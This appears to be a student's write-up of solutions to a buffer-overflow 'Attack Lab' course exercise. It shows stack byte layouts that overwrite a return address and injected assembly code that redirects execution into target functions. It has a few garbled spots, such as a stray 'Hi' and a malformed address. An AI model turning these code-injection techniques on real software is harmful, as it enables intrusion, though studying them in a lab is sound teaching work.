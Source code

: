 # Solution to Attack Lab

## CTARGET Level 1
---
basically just set the return address of Getbuf to the starting address of touch1

stack we want (the first 40 bytes can be anything without 0x0a):

| 00 | 00 | 00 | 00 | 00 | 40 | 17 | c0 |   0x5561dca0

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |       

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |

| 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 0x5561dc78

Hi <------------------------------------- low

## CTARGET Level 2
---

most important things: 

1. the value of %rsp should still be 0x5561dca8 even if we go to touch2 function.(can't pass the validate function)
2. the byte representation code produced by objdump is in little order.
3. when some part of the stack is deallocated, staffs stored there are not deleted, and we can still access it.

we just set the return address of Getbuf to be the starting address of the buffer located for the string, and at there we set the %rdi value, and push the starting address of touch2 to the stack(stored at 0x5561dca0), and return.

assembly code:
```
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```

## CTARGET Level 3
---
most import thing:

1. All the allocated buffer for the get function are all rewritten by hexmatch(cover from 0x5561dc00 to 0x5561dc97) or touch3(0x5561dc98 to 0x5561dca7).
2. string is not like number, in the way that lowest memory address stores most significant bytes of the string.
   
We just store the string above 0xdc5561dca8, which is the address stored in %rsp when we go to touch3. Touch3 and hexmatch will not use memory above the rsp.

assembly code:
```
movq $0x5561dca8,%rdi
movq $0x6166373939623935,%rax
movq %rax,(%rdi)
movb $0x00,0x8(%rdi)
pushq $0x4018fa
ret
```